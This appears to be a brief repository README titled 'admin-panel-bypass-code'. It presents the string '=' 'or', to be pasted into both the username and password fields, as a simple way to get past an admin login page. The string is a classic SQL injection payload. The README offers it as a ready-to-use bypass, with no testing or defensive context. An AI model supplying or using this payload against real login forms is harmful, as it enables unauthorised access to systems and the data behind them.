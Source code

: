 # admin-panel-bypass-code
You can bypass admin panel simple with this method.

# Usage:
paste the code on username and password

# Examp:
user     : '=' 'or'

password : '=' 'or'
